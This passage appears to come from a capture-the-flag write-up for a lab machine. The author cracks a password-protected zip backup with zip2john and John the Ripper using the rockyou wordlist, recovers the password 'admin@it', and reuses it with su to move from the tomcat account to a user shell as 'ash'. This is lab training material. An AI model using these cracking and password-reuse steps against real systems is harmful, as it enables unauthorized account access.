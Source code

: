 Seens like the zip is password protected and password reuse is not valid. So, we can try to crack it:
```bash
❯ /usr/bin/zip2john 16162020_backup.zip
# Garbage data
16162020_backup.zip:$pkzip2$3*2*1*0*0*24*02f9*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*285c*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5c67*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip2$::16162020_backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:16162020_backup.zip
❯ echo '16162020_backup.zip:$pkzip2$3*2*1*0*0*24*02f9*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*285c*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5c67*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip2$::16162020_backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:16162020_backup.zip' > backup_hash
❯ john --wordlist=/usr/share/dict/rockyou.txt backup_hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:02 DONE (2022-06-11 18:51) 0.4504g/s 4671Kp/s 4671Kc/s 4671KC/s adnbiopc..adamboryd
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
We found the password `admin@it` for the zip file. Let's decrypt it:
```bash
❯ unzip 16162020_backup.zip
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password: # admin@it
  inflating: var/www/html/favicon.ico  
   creating: var/www/html/files/
  inflating: var/www/html/index.php  
 extracting: var/www/html/logo.png   
  inflating: var/www/html/news.php   
  inflating: var/www/html/Readme.txt  
❯ cd var/www/html/
❯ ls
 assets   favicon.ico   logo.png   Readme.txt
 files    index.php     news.php 
```
But after reading the files, we find nothing of use, so we try password reuse on `ash:admin@it`:
```bash
tomcat@tabby:/var/www/html/files$ su ash
Password: # admin@it
ash@tabby:/var/www/html/files$ 
```
We obtained a user shell as `ash`.
